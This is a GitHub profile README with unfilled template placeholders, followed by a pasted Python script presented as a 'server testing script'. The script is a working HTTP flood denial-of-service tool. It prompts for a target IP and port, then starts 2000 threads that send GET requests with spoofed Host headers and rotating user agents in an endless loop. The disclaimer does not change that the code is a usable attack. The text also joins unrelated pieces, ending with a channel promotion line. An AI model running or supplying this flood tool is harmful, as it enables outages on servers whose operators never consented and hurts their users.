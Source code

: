 - 👋 Hi, I’m @Aliyev-019
- 👀 I’m interested in ...
- 🌱 I’m currently learning ...
- 💞️ I’m looking to collaborate on ...
- 📫 How to reach me ...
- 😄 Pronouns: ...
- ⚡ Fun fact: ...

<!---
Aliyev-019/Aliyev-019 is a ✨ special ✨ repository because its `README.md` (this file) appears on your GitHub profile.
You can click the Preview link to take a look at your changes.
--->
This is a server testing script. Do not use it to harm anyone. We are not responsible for any damage caused by this script. Use it to understand how DDoS attacks work.

import socket
import threading
import random
import os

def get_user_input():
    os.system("clear")
    print("made by KiNGEX")
    target_ip = input("Enter the target IP: ")
    target_port = int(input("Enter the target port: "))
    fake_ip = input("Enter a fake IP: ")
    return target_ip, target_port, fake_ip

requests_sent = 0

def attack(target_ip, target_port, fake_ip):
    global requests_sent
    while True:
        try:
            s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
            s.settimeout(0.5)
            s.connect((target_ip, target_port))
            headers = f"GET /{target_ip} HTTP/1.1\r\n"
            headers += f"Host: {fake_ip}\r\n"
            headers += f"User-Agent: {random.choice(['Mozilla/5.0', 'Android/7.0', 'Chrome/80.0.3987.87'])}\r\n"
            headers += "Accept-language: en-US,en;q=0.9\r\n\r\n"
            s.sendto(headers.encode("ascii"), (target_ip, target_port))
            s.close()
            requests_sent += 1
            print(f"Requests Sent: {requests_sent}")
        except:
            pass

# Get user input, initiate the supersonic attack, and keep countin'
target_ip, target_port, fake_ip = get_user_input()
for _ in range(2000):
    thread = threading.Thread(target=attack, args=(target_ip, target_port, fake_ip))
    thread.start()
🔔Unmute Notification & Share Channel For More Content ✅
